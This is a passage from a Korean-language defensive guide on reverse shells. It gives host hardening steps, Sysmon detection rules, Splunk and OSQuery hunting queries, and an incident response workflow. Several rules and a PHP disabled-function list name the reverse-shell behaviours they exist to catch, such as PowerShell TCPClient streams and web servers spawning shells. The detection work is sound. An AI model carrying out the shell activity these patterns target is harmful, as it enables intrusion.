    sid:1000003; rev:1;)
```

### 호스트 레벨 방어 (Host-Level Defenses)

호스트 레벨 방어는 침해가 발생한 뒤에도 리버스 셸의 실행과 지속성을 차단해 피해를 최소화하는 최종 방어선이다.

**1. 애플리케이션 실행 제어 (Application Whitelisting)**

AppLocker(Windows), SELinux/AppArmor(Linux), gatekeeper(macOS) 등을 활용하여 승인된 애플리케이션만 실행되도록 제한한다.

Windows AppLocker 정책 예시:

```powershell
# PowerShell 스크립트 실행 제한
New-AppLockerPolicy -RuleType Publisher -Path * -User Everyone -Action Deny \
    -PublisherCondition "O=Microsoft Corporation, L=Redmond, S=Washington, C=US" \
    -ProductName "Windows PowerShell" \
    -BinaryVersionRange "10.0.0.0-10.9.9.9"

# 특정 디렉토리의 실행 파일만 허용
New-AppLockerPolicy -RuleType Path -Path "C:\Program Files\*" -User Everyone -Action Allow
New-AppLockerPolicy -RuleType Path -Path "C:\Windows\*" -User Everyone -Action Allow
```

**2. 스크립트 인터프리터 하드닝**

PHP, Python, Ruby 등 스크립트 언어의 위험한 함수를 비활성화한다.

PHP 설정 (/etc/php/8.1/apache2/php.ini):

```ini
; 위험한 함수 비활성화
disable_functions = system,exec,shell_exec,passthru,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,eval,assert,create_function

; open_basedir 제한 (웹 루트 외부 접근 차단)
open_basedir = /var/www/html:/tmp

; 파일 업로드 제한
file_uploads = Off
upload_max_filesize = 2M
```

**3. 임시 디렉토리 실행 방지**

`/tmp`, `/var/tmp`, `/dev/shm` 등 공격자가 악성 파일을 저장하는 디렉토리에 `noexec` 마운트 옵션을 적용한다.

```bash
# /etc/fstab 설정
tmpfs /tmp tmpfs defaults,noexec,nosuid,nodev 0 0
tmpfs /var/tmp tmpfs defaults,noexec,nosuid,nodev 0 0
tmpfs /dev/shm tmpfs defaults,noexec,nosuid,nodev 0 0

# 즉시 재마운트
mount -o remount,noexec,nosuid,nodev /tmp
mount -o remount,noexec,nosuid,nodev /var/tmp
mount -o remount,noexec,nosuid,nodev /dev/shm
```

**4. EDR 솔루션 배치 (Endpoint Detection and Response)**

CrowdStrike Falcon, Microsoft Defender for Endpoint, SentinelOne, Carbon Black 등 EDR 솔루션은 다음과 같은 행위 기반 탐지를 수행한다.

탐지 가능한 행위 패턴:
- 웹 서버 프로세스(apache2, nginx, php-fpm)가 셸(/bin/bash, /bin/sh)을 생성하는 경우
- 셸 프로세스가 네트워크 소켓을 생성하고 외부 IP로 연결하는 경우
- 사용자 로그인 없이 생성된 대화형 셸 세션
- Python, PowerShell이 Base64 인코딩된 명령어를 실행하는 경우
- 프로세스가 자신의 표준 입출력을 소켓으로 리다이렉트하는 경우 (dup2 시스템 콜)

Sysmon(Windows)을 활용한 탐지 규칙 예시:

```xml
<Sysmon schemaversion="4.81">
  <EventFiltering>
    <!-- Process Creation with Network Connection -->
    <RuleGroup name="Reverse Shell Detection" groupRelation="or">
      <ProcessCreate onmatch="include">
        <!-- PowerShell with network arguments -->
        <Rule name="PowerShell Network Connection" groupRelation="and">
          <Image condition="end with">powershell.exe</Image>
          <CommandLine condition="contains any">Net.Sockets;TCPClient;GetStream</CommandLine>
        </Rule>

        <!-- cmd.exe spawned by web server -->
        <Rule name="Web Server Spawning Shell" groupRelation="and">
          <Image condition="end with">cmd.exe</Image>
          <ParentImage condition="contains any">w3wp.exe;httpd.exe;nginx.exe;php-cgi.exe</ParentImage>
        </Rule>
      </ProcessCreate>

      <!-- Network Connection by Shell Process -->
      <NetworkConnect onmatch="include">
        <Image condition="end with">cmd.exe</Image>
        <Image condition="end with">powershell.exe</Image>
        <Image condition="end with">bash</Image>
        <Image condition="end with">sh</Image>
      </NetworkConnect>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

### 탐지 및 대응 (Detection and Response)

**1. 중앙집중식 로깅 및 SIEM 통합**

모든 시스템의 로그(방화벽, IDS, 프록시, DNS, 엔드포인트)를 중앙 SIEM(Splunk, ELK, QRadar)으로 수집하여 상관 분석을 수행한다.

Splunk 상관 분석 쿼리 예시:

```spl
# 동일 소스 IP의 다수 목적지 연결 시도 (스캐닝)
index=firewall action=allowed direction=outbound
| stats dc(dest_ip) as unique_destinations by src_ip
| where unique_destinations > 50
| table src_ip unique_destinations

# 웹 서버에서 셸 프로세스 생성
index=windows EventCode=4688
(ParentProcessName="*w3wp.exe" OR ParentProcessName="*httpd.exe")
(ProcessName="*cmd.exe" OR ProcessName="*powershell.exe")
| table _time ComputerName User ProcessName ParentProcessName CommandLine

# 비업무 시간 외부 연결
index=network earliest=-1h latest=now
| eval hour=strftime(_time, "%H")
| where (hour < 8 OR hour > 18) AND action="allowed" AND direction="outbound"
| stats count by src_ip dest_ip dest_port
| where count > 10
```

**2. 자동화된 사고 대응 (Automated Incident Response)**

SOAR(Security Orchestration, Automation, and Response) 플랫폼(Palo Alto Cortex XSOAR, Splunk Phantom, IBM Resilient)을 활용하면 탐지된 리버스 셸 활동에 자동으로 대응할 수 있다.

자동화 워크플로우:
1. 리버스 셸 탐지 알림 수신
2. 해당 호스트를 격리 VLAN으로 자동 이동
3. 엔드포인트에서 프로세스 트리 및 네트워크 연결 정보 수집
4. 메모리 덤프 및 디스크 이미지 생성
5. C2 IP를 방화벽 블랙리스트에 자동 추가
6. 보안팀에 상세 사고 보고서 전송
7. 티켓 시스템(Jira, ServiceNow)에 사고 티켓 자동 생성

**3. 위협 헌팅 (Threat Hunting)**

능동적인 위협 헌팅을 통해 아직 탐지되지 않은 리버스 셸 활동을 발견한다.

헌팅 쿼리 예시 (OSQuery):

```sql
-- 비정상적인 셸 프로세스의 네트워크 연결
SELECT
    p.pid,
    p.name,
    p.path,
    p.cmdline,
    p.parent,
    ps.remote_address,
    ps.remote_port,
    ps.local_port
FROM
    processes p
JOIN
    process_open_sockets ps ON p.pid = ps.pid
WHERE
    (p.name LIKE '%bash%' OR p.name LIKE '%sh%' OR p.name LIKE '%cmd.exe%' OR p.name LIKE '%powershell.exe%')
    AND ps.remote_address != '127.0.0.1'
    AND ps.remote_address != '::1';

-- 웹 서버 프로세스의 자식 프로세스 확인
SELECT
    p1.name AS parent_name,
    p1.pid AS parent_pid,
    p2.name AS child_name,
    p2.pid AS child_pid,
    p2.cmdline AS child_cmdline
FROM
    processes p1
JOIN
    processes p2 ON p1.pid = p2.parent
WHERE
    p1.name IN ('apache2', 'httpd', 'nginx', 'w3wp.exe', 'php-fpm')
    AND p2.name IN ('bash', 'sh', 'cmd.exe', 'powershell.exe', 'python', 'perl');
```

## 결론 및 권고사항

리버스 셸은 방화벽과 NAT 환경을 우회하는 대표적 공격 기법이다. 초기 침투 뒤 원격 접근을 유지하는 수단으로 쓰이며, Bash 원라이너부터 암호화된 다단계 페이로드, HTTP/DNS 터널링, 시간 기반 회피까지 구현 방식도 다양하다.

방어의 핵심은 네트워크 경계 통제, 호스트 보호, 행위 기반 탐지, 중앙 로깅, 자동화 대응을 함께 묶는 다층 전략에 있다. 특히 아웃바운드 트래픽에 제로 트러스트(Zero Trust)를 적용해 기본 차단 후 예외만 허용하는 정책은 리버스 셸 공격의 성공 가능성을 크게 낮춘다.

보안팀은 정기적인 침투 테스트와 레드팀 훈련으로 탐지·대응 능력을 검증해야 한다. 최신 공격 기법과 회피 전략을 꾸준히 학습하고, 보안 통제를 주기적으로 점검해 새로운 위협에 맞춰 업데이트하는 운영이 중요하다.
